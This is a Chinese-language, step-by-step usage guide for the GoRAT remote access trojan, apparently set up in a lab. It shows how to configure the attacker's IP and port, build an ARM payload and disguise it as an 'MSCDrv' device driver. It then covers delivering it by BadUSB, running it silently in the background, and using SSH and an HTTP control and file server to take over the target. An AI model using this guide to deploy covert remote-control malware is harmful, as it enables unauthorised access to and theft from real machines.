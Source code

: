 # GoRAT使用手册

> [GoRAT](https://github.com/JustinTimperio/GoRAT)主要是由Go和Shell语言编写而成，支持生成arm架构下的Payload
>
> > GoRAT uses chisel and gliderlabs ssh server to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”：![image](./GoRAT.assets/goRAT_Architecture.jpg)
>
> > [!NOTE]
> >
> > **攻击者主机**：简记为`A`
> >
> > `ip`：`192.168.59.207`
> >
> > `port`：`8888`
> >
> > **目标靶机**：简记为`V`
> >
> > `架构`：`Phytium-aarch64`(`linux-ARMv8`)

## `A`：GoRAT安装与环境配置

为了不影响本地环境，使用Docker环境进行安装配置。

### 设置Go代理

由于国内安装go语言的mod包时会出现被墙的问题，因此我们在执行：

```shell
git clone git@github.com:JustinTimperio/GoRAT.git
```

将仓库下载下来后，对`./Dockerfile`文件作如下修改：<img src="./GoRAT.assets/image-20240422233609677.png" alt="image-20240422233609677"  />

加入上述Go代理，使得在`Docker`内执行`go mod download -x`时可以正常下载mod包。

### 配置`./config.sh`

在`./config.sh`下配置攻击者主机`A`的`ip`以及`port`以生成可在目标靶机上使用的`payload`：<img src="./GoRAT.assets/image-20240422234924239.png" alt="image-20240422234924239"  />

### 进行构建

在仓库目录下运行：

```shell
./build_payload.sh --docker
```

生成的`payload`位于`./BUILD/payloads`目录下

根据目标靶机`V`的架构，选择`goRAT_v12_linux_arm64_ARM7`作为`payload`

![image-20240423000021814](./GoRAT.assets/image-20240423000021814.png)

### 配置运行监听程序

监听程序位置即：`./scripts/start_server.sh`

- 配置`A`的端口号为`8888`：![image-20240423000759616](./GoRAT.assets/image-20240423000759616.png)

- 运行该程序：<img src="./GoRAT.assets/image-20240423002048992.png" alt="image-20240423002048992" style="zoom:150%;" />

  运行后开始监听。





## `V`：获得`payload`并执行

### 预处理

将生成的二进制文件(`payload`)重命名为`MSCDrv`，掩人耳目为`MSC`设备驱动

### 上载至靶机`V`

即通过`BadUSB`的方式将`payload`传输至目标靶机`V`上

- 将`payload`隐藏至大容量存储设备中
- 将`payload`上载至可访问平台中，通过`BadUSB`从平台上下载

### 在`V`中执行

- 赋予该`payload`执行权限：

  ```shell
  chmod 777 ./MSCDrv
  ```

- 执行下面的命令：

  ```shell
  ./MSCDrv > /dev/null 2>&1 &
  exit
  ```
  
  - 屏蔽输出处理
  
    - `> /dev/null` 将标准输出重定向到空设备，即丢弃输出
  
    - `2>&1` 将标准错误输出重定向到标准输出
  
    这样将所有输出都重定向到空设备 `/dev/null`，这样程序的输出就不会显示在终端上。
  
  - 后台运行处理
  
    - 使用 `&` 符号将程序放在后台运行
  
  - 执行完命令后关闭终端
  
    - 使用`exit`命令即可

运行后，在`A`上显示控制程序和端口程序的运行端口：![image-20240423001949206](./GoRAT.assets/image-20240423001949206.png)

- 显示控制端口在`41460`运行
- 显示`ssh`在端口`41461`运行



## `A`：执行攻击

### SSH服务器：

该端口上运行的程序用来建立SSH连接。

执行下述命令之一：

- default：

  ```shell
  ssh -v localhost -p 41461
  ```

- for phytium_pi：

  ```shell
  ssh -o HostKeyAlgorithms=ssh-rsa localhost -p 41461
  ```

即可与目标靶机`V`建立`ssh`连接：

### 控制服务器：

控制服务器利用简单的`http`机制，用于将`/some`页面转换为内部`go`命令。以这种方式，请求网页直接导致在客户端系统上执行代码。虽然这种机制不是很复杂，但它是非常可靠和高性能的。当前`api`具有以下命令：

- 检测靶机连接状态：

  ```shell
  http://localhost:[port]/
  ```

  如果主机联机并响应请求，则返回状态代码`OK`

- 报告设备的硬件信息：

  ```shell
  http://localhost:[port]/hardware
  ```

  在json中报告设备的基本硬件调查

- 关闭靶机`payload`程序：

  ```shell
  http://localhost:[port]/stop
  ```

  关闭客户端`payload`而不自毁

- 自毁靶机`payload`程序：

  ```shell
  http://localhost:[port]/uninstall
  ```
  
  终止客户端`payload`并自毁

### 文件服务器：

每个客户端的文件服务器服务由**控制服务器对应端口**提供。从技术角度来看，文件服务器是控制服务器的直接组成部分。

文件和目录可以访问：

```shell
http://localhost:[port]/fs/
```

通过浏览器或wget和curl等工具：





## Tips

### ps1：`A`如何关闭监听程序？

- 先获得对应端口上的程序的`PID`：

  ```shell
  sudo netstat -tulpn | grep :8888
  ```

  <img src="./GoRAT.assets/image-20240423003228915.png" alt="image-20240423003228915" style="zoom:150%;" />

- 杀死比尔：

  ```shell
  kill -SIGKILL 506656
  ```

